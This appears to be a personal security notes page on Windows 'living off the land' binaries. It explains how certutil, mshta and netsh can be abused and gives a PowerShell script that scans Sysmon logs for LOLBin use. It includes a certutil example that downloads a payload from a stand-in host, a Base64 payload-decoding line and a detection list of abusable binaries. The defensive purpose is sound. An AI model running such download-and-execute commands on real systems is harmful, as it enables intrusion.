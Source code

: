 ```yaml
---
title: Win - LOLBins
date: 2020-09-18 11:11:11 -0400
categories: [30Win]
tags: []
math: true
image: 
---
```


[toc]

---

# LOLBins - Living Off The Land Binaries

All operating systems provide a rich toolbox to achieve multiple day-to-day tasks 
- like maintenance of the certificates, installation of patches and applications, management of files, and many more. 
- Those tools are installed by default and available to all users without specific access rights (most of the time). 
- as they are signed by the operating system, they are considered safe by default. 


The problem is the following: These tools are very powerful and provide interesting features for attackers. They are used for malicious purposes. Why reinvent the wheel if an attacker has access to a tool to achieve a specific task? Let's have a look at some tools available in every Microsoft Windows operating system. If you're using AppLocker, they are chances that you're allowing Microsoft signed binaries in your policy. 


## exe


Let's review some example:

`certutil.exe` 
- a tool used to work with certificates

```bash
# but it can also be used as a command-line browser to download some content from an URL:
C:\Temp> certutil.exe -urlcache -split -f "https://badsite.com/payload.exe" iambad.exe

# It can also be used to quickly decode a Base64-encoded payload:
C:\Temp> certutil -decode payload.txt payload.exe
```


I also mentioned several times in other diaries other looks like `msbuild.exe, csc.exe, or jsc.exe` that are provided by the `.NET Framework`. They are useful to compile code on the fly or to spawn other processes.


`ping.exe` 
- can be used in alternative ways. 

```bash
# By example to implement a pause in a script:
C:\Temp> ping -n 5 127.0.0.1
# Ping will send 5 ICMP request packets to the loopback interface, one per second. So, we introduce a pause of 5 seconds.
```



They are plenty of tools that could be potentially dangerous if invoked from an abnormal process (like word.exe or powershell.exe) or by a regular user. 

A nice list has been compiled and made available online: [The LOLBAS project](https://lolbas-project.github.io/) 

---


### mshta.exe

mshta.exe `Microsoft HTML Application Host`
- mshta.exe is a part of Microsoft Windows Operating System which is needed to `execute .HTA files`. 
- This program is a non-essential system process, but should not be terminated unless suspected to be causing problems.
- mshta.exe 是存放在目录 C:\Windows\System32。 
- 已知的 Windows XP 文件大小为 45,568 字节 (占总出现比率 66% )，29,184 字节。
- 应用程序没有可视窗口。 总结在技术上威胁的危险度是 8% , 但是也可以参考 用户意见。


---


### netsh.exe
- 是一个管理员可以用来在命令提示符处配置并监视基于 Windows 的计算机的工具。
- 使用 `Netsh.exe` 工具，可以将输入的上下文命令定向到适当的帮助器，然后帮助器将执行命令。
- 帮助器是个动态链接库 `(.dll)` 文件，它通过提供配置、监视和支持一种或多种服务、实用工具或协议，来扩展 `Netsh.exe` 工具的功能。




---


## solution

track the usage of those tools via Sysmon and Powershell. 

example

```bash
# quick script to extract interesting Sysmon events: 

$lolbins = @("Atbroker.exe","Bash.exe","Bitsadmin.exe","Certutil.exe","Cmdkey.exe","Cmstp.exe","Control.exe","Csc.exe","Dfsvc.exe","Diskshadow.exe","Dnscmd.exe","Esentutl.exe","Eventvwr.exe","Expand.exe","Extexport.exe","Extrac32.exe","Findstr.exe","Forfiles.exe","Ftp.exe","Gpscript.exe","Hh.exe","Ie4uinit.exe","Ieexec.exe","Infdefaultinstall.exe","Installutil.exe","Makecab.exe","Mavinject.exe","Microsoft.Workflow.Compiler.exe","Mmc.exe","Msbuild.exe","Msconfig.exe","Msdt.exe","Mshta.exe","Msiexec.exe","Odbcconf.exe","Pcalua.exe","Pcwrun.exe","Presentationhost.exe","Print.exe","Reg.exe","Regasm.exe","Regedit.exe","Register-cimprovider.exe","Regsvcs.exe","Regsvr32.exe","Replace.exe","Rpcping.exe","Rundll32.exe","Runonce.exe","Runscripthelper.exe","Sc.exe","Schtasks.exe","Scriptrunner.exe","SyncAppvPublishingServer.exe","Verclsid.exe","Wab.exe","Wmic.exe","Wscript.exe","Xwizard.exe","Appvlp.exe","Bginfo.exe","Cdb.exe","csi.exe","dnx.exe","Dxcap.exe","Mftrace.exe","Msdeploy.exe","msxsl.exe","rcsi.exe","Sqldumper.exe","Sqlps.exe","SQLToolsPS.exe","te.exe","Tracker.exe","vsjitdebugger.exe")

Foreach($lolbin in $lolbins)
{
    Get-WinEvent -FilterHashtable @{logname="Microsoft-Windows-Sysmon/Operational";id=1;} | ?{ $_.message -match "`r`nImage: .*$lolbin`r`n" } | %{
        [regex]$regex = "(?i)`r`n(?<image>Image: .*$lolbin)`r`n(?<args>CommandLine: .*)`r`n"
        $match = $regex.Match($_.message)

        $Out = New-Object PSObject
        $Out | Add-Member Noteproperty 'Binary' $lolbin
        $Out | Add-Member Noteproperty 'Image' $match.Groups["image"].value
        $Out | Add-Member Noteproperty 'Args' $match.Groups["args"].value
        $Out | fl
    }
}
```


---



ref:
- [1] https://isc.sans.edu/forums/diary/Malware+Samples+Compiling+Their+Next+Stage+on+Premise/25278
- [2] https://lolbas-project.github.io
- [3] https://gist.github.com/leoloobeek/a3a4d9af3bf7fb37b6d82a7a17e7176d
- [4] https://raw.githubusercontent.com/ion-storm/sysmon-config/master/sysmonconfig-export.xml






.